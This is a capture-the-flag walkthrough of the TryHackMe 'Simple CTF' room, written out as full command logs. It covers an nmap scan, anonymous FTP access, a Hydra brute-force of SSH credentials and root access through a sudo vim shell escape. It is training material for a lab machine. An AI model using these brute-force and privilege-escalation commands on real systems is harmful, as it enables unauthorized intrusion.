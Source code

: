 <p align="center"><img src="https://tryhackme-images.s3.amazonaws.com/room-icons/f28ade2b51eb7aeeac91002d41f29c47.png" width="800" ></p>
<h1><p align="center">Simple CTF </p></h1>

### Room Link: [THM-EasyCTF](https://tryhackme.com/room/easyctf) 

## Recon
So I began with nmap scan to Find entry points.
```bash 
$ sudo nmap -T4 -sC -sS 10.10.210.59 > nmap.out
$ cat nmap.out
...
Host is up (0.15s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.155.126
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  EtherNetIP-1
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)

Nmap done: 1 IP address (1 host up) scanned in 40.91 seconds
```

As I can see there is a ftp server running on target vulnerable to Anonymous login. Lets checkout. Found a txt file download and cat out.
```bash
$ ftp 10.10.210.59
Connected to 10.10.210.59.
220 (vsFTPd 3.0.3)
Name (10.10.210.59:FaLLenGuY): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
cd200 PORT command successful. Consider using PASV.
 150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls 
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (98.3077 kB/s)
ftp>exit

$ cat ForMitch.txt              
Dammit man... you'te the worst dev i've seen. 
You set the same pass for the system user, and the password is so weak... i cracked it in seconds. 
Gosh... what a mess!
```

Gives us an idea that it has weak password for something may be SSH login and potential name mitch.
so I bruteforced it ssh login with Hydra.
```bash
$ sudo hydra -L name  -P /usr/share/seclists/Passwords/Common-Credentials/best110.txt  10.10.210.59 ssh -s 2222 -o hydra.out    1 ⚙

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-20 10:28:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 330 login tries (l:3/p:110), ~21 tries per task
[DATA] attacking ssh://10.10.210.59:2222/
[STATUS] 167.00 tries/min, 167 tries in 00:01h, 182 to do in 00:02h, 16 active
[2222][ssh] host: 10.10.210.59   login: mitch   password: ******** 
[STATUS] 157.50 tries/min, 315 tries in 00:02h, 38 to do in 00:01h, 16 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-20 10:31:41

```
Lets ssh in with creds found. And stablize shell with this python one-liner ```python3 -c 'import pty;pty.spawn("/bin/bash")'```
```bash
$ ssh mitch@10.10.210.59 -p 2222                                                                                          130 ⨯ 1 ⚙
The authenticity of host '[10.10.210.59]:2222 ([10.10.210.59]:2222)' can't be established.
ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.210.59]:2222' (ECDSA) to the list of known hosts.
mitch@10.10.210.59's password:          

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
mitch@Machine:~$ ls
user.txt

mitch@Machine:~$ cat user.txt 
***************

```
## Privilege Escalation
Now Its time to Escalate Privileges.
```bash

mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:                                                                                 
    (root) NOPASSWD: /usr/bin/vim          
```
So it seems user mitch has vim pawnage with sudo, lets exploit it. 
Check out [GTFOBins](https://gtfobins.github.io/#vim)

```bash
mitch@Machine:~$ sudo /usr/bin/vim -c ':!/bin/sh'

#[[2;2R^H^H^
# python3 -c 'import pty;pty.spawn("/bin/bash")'

root@Machine:~# whoami
root

root@Machine:~# find / -name root.txt -type f 2>/dev/null 
/root/root.txt
root@Machine:/root# cat /root/root.txt
***************

```
With That We have Root Flag.


















